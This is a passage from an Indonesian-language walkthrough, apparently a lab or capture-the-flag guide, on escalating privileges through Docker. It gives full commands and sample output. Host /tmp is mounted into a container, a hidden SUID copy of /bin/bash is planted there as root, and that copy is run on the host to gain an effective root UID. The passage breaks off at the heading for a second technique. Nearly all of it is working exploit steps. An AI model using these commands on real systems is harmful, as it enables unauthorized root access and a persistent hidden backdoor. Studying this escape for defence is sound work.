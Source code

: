 
## 💥 STEP 5: Privilege Escalation - Export /bin/bash

### 5.1 Technique 1: Direct Volume Mount Attack

#### 5.1.1 Masuk ke Docker Container
```bash
docker run -it --rm -v /tmp:/mnt/host-tmp production-app /bin/bash
```

#### 5.1.2 Di Dalam Container - Ekspor /bin/bash
```bash
# Sekarang di dalam container sebagai root!
whoami
# root

# Ekspor binary bash ke host
cp /bin/bash /mnt/host-tmp/.system-bash

# Berikan SUID permissions
chmod 4755 /mnt/host-tmp/.system-bash

# Verify export berhasil
ls -la /mnt/host-tmp/.system-bash
```
**Output:**
```
-rwsr-xr-x 1 root root 1.2M Dec 10 17:00 /mnt/host-tmp/.system-bash
```

#### 5.1.3 Keluar dari Container
```bash
exit
```

#### 5.1.4 Execute di Host System
```bash
# Kembali ke shell developer di host
whoami
# developer

# Execute the SUID bash
/tmp/.system-bash -p

# Verify privilege escalation
whoami
# root 🎉

id
# uid=1002(developer) gid=1002(developer) euid=0(root)
```

### 5.2 Technique 2: Docker Cp Command
